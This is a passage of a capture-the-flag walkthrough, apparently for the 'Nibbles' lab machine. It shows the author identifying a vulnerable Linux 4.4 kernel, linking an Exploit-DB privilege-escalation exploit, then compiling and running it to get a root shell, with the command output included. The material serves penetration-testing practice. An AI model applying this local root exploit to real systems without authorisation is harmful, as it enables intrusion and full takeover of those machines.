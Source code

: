 When checking the kernel version of the machine, it appears it's running a vulnerable version to local privilege escalation through the kernel
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ uname -a
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```
[source](https://www.exploit-db.com/exploits/44298)
When compiling and executing the script, we are welcome with a root shell
```bash
nibbler@Nibbles:/home/nibbler$ ls
personal  personal.zip  priv.c  user.txt
nibbler@Nibbles:/home/nibbler$ gcc priv.c 
nibbler@Nibbles:/home/nibbler$ ls
a.out  personal  personal.zip  priv.c  user.txt
nibbler@Nibbles:/home/nibbler$ ./a.out 
task_struct = ffff88003a848e00
uidptr = ffff8800322e6544
spawning root shell
root@Nibbles:/home/nibbler# id
uid=0(root) gid=0(root) groups=0(root),1001(nibbler)
root@Nibbles:/home/nibbler#
```
